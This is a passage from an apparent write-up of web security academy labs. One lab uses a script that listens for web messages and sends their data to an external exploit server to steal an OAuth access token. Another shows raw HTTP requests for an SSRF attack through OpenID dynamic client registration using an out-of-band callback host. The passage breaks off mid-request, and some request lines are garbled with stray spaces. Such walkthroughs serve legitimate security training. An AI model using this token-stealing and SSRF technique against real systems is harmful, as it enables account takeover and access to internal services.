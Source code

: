             <script type="text/javascript">
                // Listen for web messages
                window.addEventListener('message', function(e) {
                    // Output to the exploit server access log
                    fetch('https://exploit-0af600110405f2b0800f488f010d003f.exploit-server.net/log?data=' + encodeURIComponent(e.data.data))
                }, false)
            </script>
        </body>
    </html>

    ```
4. Once you load the attack use the access token on authorizatoion header and get the administrators api key.



## Lab: SSRF via OpenID dynamic client registration

1. Firstly open the site and try to iniate the OAuth authentication.
2. Head over to the following url `https://Your-OAuth-ID.oauth-server.net/.well-known/openid-configuration`
3. You can notice `/reg` is being used for registration
4. Now send the following request
    ```
    POST / reg HTTP / 2
    Host: oauth - 0 a070088030c62d980d301e6026b00be.oauth - server.net
    User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 139.0) Gecko / 20100101 Firefox / 139.0
    Accept: */*  
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://0aa900f604a9f208808c4956001000a1.web-security-academy.net/
    Authorization: Bearer Og6IpqONRFuYQUjV0BKB5m9HPD5YGTyLDb2YMZaWybZ
    Content-Type: application/json
    Origin: https://0aa900f604a9f208808c4956001000a1.web-security-academy.net
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: cross-site
    Priority: u=4
    Te: trailers
    Content-Length: 187

    {
        "redirect_uris" : [
            "https://xqresf7gzvogghkferv2no4jgam1aryg.oastify.com"
        ]
    }

    ```
5. You should get response with a ```client_id```
6. Here we can visit over `https://YOUR-OAuth-ID.oauth-server.net/client/CLIENT_TOKEN/logo`
7. Next we can submit something like 
    ```
    POST / reg HTTP / 2
    Host: oauth - 0 a070088030c62d980d301e6026b00be.oauth - server.net
    User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 139.0) Gecko / 20100101 Firefox / 139.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://0aa900f604a9f208808c4956001000a1.web-security-academy.net/
    Authorization: Bearer Og6IpqONRFuYQUjV0BKB5m9HPD5YGTyLDb2YMZaWybZ
    Content-Type: application/json
    Origin: https://0aa900f604a9f208808c4956001000a1.web-security-academy.net
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: cross-site